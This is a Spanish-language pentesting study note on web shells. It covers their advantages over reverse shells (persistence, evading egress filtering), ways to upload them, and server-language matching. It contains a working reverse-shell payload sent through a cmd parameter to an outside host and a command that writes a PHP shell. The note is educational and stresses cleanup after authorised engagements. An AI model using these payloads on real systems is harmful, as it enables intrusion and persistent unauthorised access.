

---
tags:
  - Pentesting/Explotacion
  - Shells
  - Web/Red-Team
Fecha de actualización: 2026-07-18
Nota previa: "[[08 - Shells interactivas - upgrade a TTY]]"
Nota siguiente: "[[10 - Web shells en la práctica - Laudanum, Antak y PHP]]"
Area: "[[Shells y Payloads.base|Shells y Payloads]]"
---
---

<mark style="background: #ADCCFFA6;">Una `web shell` es un script (PHP, ASPX, JSP…) que subimos al servidor web objetivo y que ejecuta comandos del sistema a través de peticiones HTTP</mark>. En lugar de una conexión TCP dedicada, el canal de control es el propio tráfico web: una petición con un parámetro (`?cmd=whoami`) y la salida en la respuesta.



# Por qué una web shell y no una reverse shell

La web shell brilla justo donde la [[03 - Reverse shells|reverse shell]] sufre:

- <mark style="background: #FFB86CA6;">No necesita conexión saliente ni abrir puertos nuevos</mark>: viaja sobre el 80/443 que el servidor ya expone. Sortea de un plumazo el *egress filtering* y los firewalls que bloquean la reverse shell.
- <mark style="background: #8000E1A6;">Da persistencia</mark>: mientras el archivo siga en disco y el servicio web corra, el acceso se mantiene entre reinicios de nuestra sesión.
- Se mezcla con tráfico HTTP legítimo, más difícil de distinguir que una conexión TCP a un puerto raro.

A cambio tiene límites claros:

| Ventaja | Inconveniente |
| --- | --- |
| Sobre 80/443, sin egress | **No interactiva**: petición-respuesta, sin estado ni `TTY` |
| Persistencia en disco | El **archivo en disco** es un artefacto detectable (AV/EDR de servidor, integridad de ficheros) |
| Se camufla en tráfico web | Atada al usuario del servicio web (`www-data`, `IIS APPPOOL`) — bajo privilegio |

# Cómo llega la web shell al servidor

La web shell es la *carga*; hace falta una vulnerabilidad que la coloque en una ruta ejecutable:

- Una [[01 - Explotación básica - web shells y reverse shells|subida de archivos]] insegura que permita `.php`/`.aspx` (o su bypass).
- Un [[01 - Local File Inclusion (LFI)|LFI]] con *log poisoning* o *PHP wrappers* que escriba/ejecute código.
- Un `RFI` que incluya la shell desde nuestro servidor.
- Un RCE que **escriba** el archivo (`echo '<?php…' > shell.php`).
- Acceso a un panel de administración (editor de plantillas de un CMS, credenciales por defecto).

# El lenguaje depende del servidor

La web shell debe estar escrita en un lenguaje que el servidor **ejecute**:

| Stack del servidor | Extensión de web shell |
| --- | --- |
| Apache/Nginx + PHP | `.php`, `.phtml`, `.php5` |
| IIS + ASP.NET | `.aspx`, `.asp` |
| Tomcat / JBoss (Java) | `.jsp`, `.war` |
| Node / Python | según framework (menos común) |

<mark style="background: #FF5582A6;">Subir una `.php` a un servidor IIS que no interpreta PHP no ejecuta nada</mark>: identificar el stack ([[00 - Principios y metodología de enumeración|fingerprinting]]) es previo a elegir la shell.

# De web shell a shell interactiva

En la práctica, la web shell rara vez es el destino final: es el **trampolín**. Desde el `?cmd=` se lanza un [[03 - Reverse shells|reverse shell]] para pasar a una sesión interactiva y luego [[08 - Shells interactivas - upgrade a TTY|estabilizarla]]:

```shell-session
# desde la web shell, con el listener montado (nc -lvnp 443):
?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.5/443 0>%261'
```

> [!warning]+ Higiene profesional y legal
> Una web shell es un artefacto que **queda en el sistema del cliente**. En un engagement real hay que registrar su ruta exacta y **eliminarla al terminar** (queda documentado en el reporte): una web shell olvidada es una puerta trasera real que otro atacante puede encontrar y abusar. Además, las web shells públicas (c99, r57, b374k) están *troyanizadas* con frecuencia y filtran el acceso a terceros — nunca uses una que no hayas auditado.

Las herramientas concretas para desplegar web shells —Laudanum, Antak y las PHP a medida— y sus *gotchas* de subida, en la [[10 - Web shells en la práctica - Laudanum, Antak y PHP|siguiente nota]].
